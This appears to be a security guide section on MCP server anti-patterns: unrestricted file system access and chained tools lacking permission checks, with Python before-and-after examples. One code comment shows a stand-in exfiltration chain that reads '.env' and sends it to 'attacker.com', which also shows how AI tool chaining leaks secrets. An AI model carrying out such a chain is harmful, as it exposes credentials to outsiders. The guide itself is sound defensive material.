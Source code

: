 ## Anti-patterns / Pitfalls

### Anti-pattern 1: Exposing Unrestricted File System Access

**Symptom**: MCP server provides access to entire file system without boundaries.

**Why It Happens**: Convenience during development, lack of security awareness.

**Impact**:
- AI can read sensitive files (credentials, private keys)
- Data exfiltration risks
- Compliance violations

**Solution**: Always use Roots primitive with explicit directory boundaries [R2][R8]

**Example**:

```python
# ❌ Anti-pattern: Unrestricted access
@server.list_resources()
async def handle_list_resources():
    return [Resource(uri="file:///")]  # Root access!

# ✅ Correct pattern: Bounded access
@server.list_resources()
async def handle_list_resources():
    return [Resource(uri="file:///workspace/project")]  # Limited scope
```

**Sources**: [R2][R8]

### Anti-pattern 2: Combining Tools Without Permission Boundaries

**Symptom**: Multiple tools that individually seem safe but can be chained to exfiltrate data.

**Why It Happens**: Not considering tool composition during design.

**Impact**:
- Tool A reads sensitive files
- Tool B sends HTTP requests
- Combined: Data exfiltration

**Solution**: Implement granular permissions per tool, audit tool combinations [R3]

**Example**:

```python
# ⚠️ Dangerous combination:
# Tool 1: read_file(path) - seems safe
# Tool 2: send_webhook(url, data) - seems safe
# Combined: read_file(".env") + send_webhook("attacker.com", data) = breach

# ✅ Solution: Permission boundaries
@server.call_tool()
async def handle_call_tool(name: str, arguments: dict):
    # Verify permissions before execution
    if name == "read_file":
        if not is_file_allowed(arguments["path"]):
            raise PermissionError("File access denied")

    if name == "send_webhook":
        if not is_domain_whitelisted(arguments["url"]):
            raise PermissionError("External request denied")
```
